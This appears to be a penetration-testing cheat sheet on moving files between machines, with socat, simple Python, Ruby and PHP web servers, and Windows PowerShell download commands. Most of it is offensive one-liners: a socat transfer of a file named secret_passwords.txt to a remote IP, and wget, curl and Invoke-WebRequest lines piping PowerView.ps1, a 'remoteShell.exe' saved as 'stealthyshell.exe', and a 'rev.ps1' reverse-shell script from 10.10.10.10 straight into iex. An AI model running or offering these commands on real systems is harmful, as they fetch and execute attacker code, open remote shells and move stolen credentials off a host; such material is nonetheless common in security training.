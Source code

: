 
```bash
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
type received_secret_passwords.txt
```

- *transfer files using socat*

#### Uploading files

---

```powershell
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

- *python3 simple-httpserver*

<br>

```powershell
ruby -run -e httpd . -p 8000
```

- *ruby simple webserver to serve files*

<br>

```powershell
php -S localhost:8080
```

- *php simple webserver to serve files in current directory*

### **Windows**

#### Using wget

---

Download and Execute

```powershell
wget https://10.10.10.10:8000/PowerView.ps1 | iex

curl https://10.10.10.10:8000/PowerView.ps1 | iex
```

#### Powershell

---

```powershell
wget 10.10.10.10/remoteShell.exe -outfile stealthyshell.exe 

IwR -Uri http://10.10.10.10:8000/file.exe -Outfile file.exe | iex

Invoke-WebRequest https://10.10.10.10:8000/PowerView.ps1 | iex

IEX(New-Object Net.WebClient).DownloadString("http://10.10.10.10:8000/rev.ps1") | powershell -noprofile'

```
